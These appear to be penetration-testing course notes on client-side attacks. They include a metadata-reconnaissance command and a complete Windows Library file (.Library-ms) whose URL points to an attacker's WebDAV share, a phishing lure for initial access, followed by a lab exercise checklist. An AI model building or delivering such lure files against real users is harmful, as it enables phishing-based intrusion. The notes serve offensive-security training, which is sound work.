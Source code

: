 ## Section 11.1 Target Reconnaissance

#### Information Gathering

Examine PDF metadata for names, dates, etc
```
exiftool -a -u brochure.pdf
```

## Section 11.2 Exploiting Microsoft Office

## Section 11.3 Abusing Windows Library Files

Add to Visual Studio Code new text file. Most important tag is the Url tag. Point to webdav share 
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.221</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>

```


## Exercises To-Do

- [ ] Kevin (Proving Grounds)
- [ ] Shifty (Proving Grounds)
- [ ] Twiggy (Proving Grounds)
